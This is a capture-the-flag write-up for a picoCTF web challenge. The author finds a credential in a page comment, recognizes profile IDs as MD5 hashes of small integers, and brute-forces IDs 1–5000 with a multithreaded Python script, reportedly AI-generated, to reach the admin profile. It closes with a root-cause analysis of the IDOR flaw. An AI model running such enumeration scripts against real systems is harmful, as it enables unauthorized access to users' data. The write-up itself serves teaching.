

# Hashgate-PicoCTF-2026

### Web exploitation - Medium - 100 pts

#### Challenge description: You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn’t **directly** exposed doesn’t mean it’s secure. Maybe someone forgot that obscurity isn’t security... Can you find your way into the admin’s profile for this organisation and capture the flag?

- Accessing the application, I see a login form.



- Then I check the page source first and see a credential from a comment.


- Using that credential to login, now it displays this message, but I notice that the string `e93028bdc1aacdfb3687181f2031765d` looks like md5 hash of something.
- (32 characters length, only contains `a-z` and `0-9`  , these are MD5 identifier).


- So I bring it to Crackstation and turns out it is the hash of the ID`3000` above.


- I try changing the hash ID to `3001` and is displays `User not found` .


- Same thing happens with hash ID of `1` .


- But from here I know that I can manipulate the hash ID to view others’ data, but from what I did earlier, I don’t know how many `ID` are there or even the range of them, checking one by one will only be such a waste of time.
- So brute-forcing it will be a good idea, I utilize AI to support me creating a small python script.
- Here is what I told the AI to do:
    - Send a GET request to `http://crystal-peak.picoctf.net:[CHANGE-THIS-TO-YOUR-PORT]/profile/user/{brute-force-here}` 
    - The position noted as `brute-force` will be replaced from 1 to 5000 (because I don’t know the range exactly).
    - MD5 hash all of them before sending.
    - Hide all response containing `User not found` and `Insufficient privileges`.
    - Use multi-threading (because I don't wanna wait too long)
- Script (AI generated):

```python
import hashlib
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

BASE_URL = "http://crystal-peak.picoctf.net:[CHANGE-THIS-TO-YOUR-PORT]/profile/user/"
THREADS = 20  # Adjust based on your target

def check_id(i):
    md5_hash = hashlib.md5(str(i).encode()).hexdigest()
    url = BASE_URL + md5_hash
    try:
        resp = requests.get(url, timeout=5)
        if "User not found" not in resp.text and "Insufficient privileges" not in resp.text:
            return (i, md5_hash, resp.status_code, resp.text)
    except requests.RequestException as e:
        print(f"[!] Error at {i} ({md5_hash}): {e}")
    return None

def main():
    with ThreadPoolExecutor(max_workers=THREADS) as executor:
        futures = {executor.submit(check_id, i): i for i in range(1, 5001)}
        for future in as_completed(futures):
            result = future.result()
            if result:
                i, md5_hash, status, text = result
                print(f"[+] Hit! id={i} hash={md5_hash} status={status}")
                print(text)
                print("-" * 50)

if __name__ == "__main__":
    main()
```

- The last step is to run the script and CAPTURE THE FLAG :>


- Root cause:
    - Credential leakage in client-side HTML comment → sensitive data
    should never be embedded in front-end code, since anyone can view
    page source.
    - Predictable/reversible ID scheme (MD5 of small sequential integers)
    → hashing alone isn't obfuscation without a secret key/salt, hashes
    of a small known input space (e.g. 1–5000) are trivially reversible
    via lookup or brute-force.
    - Missing authorization check → the endpoint returns any user's data
    based solely on knowing/guessing their ID, with no verification that
    the requester is allowed to view that profile (classic IDOR).
